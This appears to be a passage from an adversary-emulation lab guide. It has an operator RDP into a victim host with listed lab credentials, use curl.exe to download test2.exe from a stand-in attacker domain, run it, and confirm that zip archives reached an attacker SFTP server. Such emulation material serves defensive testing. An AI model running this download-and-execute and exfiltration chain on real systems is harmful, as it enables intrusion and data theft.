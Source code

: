     ```bash
    pwd
    ls
    ```

If the server responds without error, the SFTP server is running correctly.

#### Executable transfer

* :arrow_right: From the Windows jumpbox `spitfire (223.246.0.90)`, RDP into the
victim host `bts (10.222.25.61)` as `sonicbeats37.fm\yoona` if not already connected.

    | Hostname | Username | Password |
    | -------- | -------- | -------- |
    | bts.sonicbeats37.fm | sonicbeats37.fm\yoona | Exposed-Backpack |

* Open an elevated command prompt and execute the following command to download
the test binary from the attacker server:

    ```cmd
    curl.exe --output "C:\Windows\Temp\test2.exe" http://d3fend-ev1l.radio/files/test2.exe
    ```

* Change directories to the directory containing the `test2.exe` binary.

    ```cmd
    cd C:\Windows\Temp
    ```

### :biohazard: Procedures

* Execute the test binary.

```cmd
test2.exe
```

After the executable has finished running, check that zip
archives were uploaded to the SFTP server:

:arrow_right: Switch to your Kali attacker machine and open a terminal tab.

* Run the following command to log into SFTP:

```bash
sftp sftp_user@36.43.97.72
```

| Username | Password |
| -------- | -------- |
| sftp_user | Password1! |

* After successful authentication, run the following commands:

```bash
ls
```

If there are zip files present, the test completed successfully.
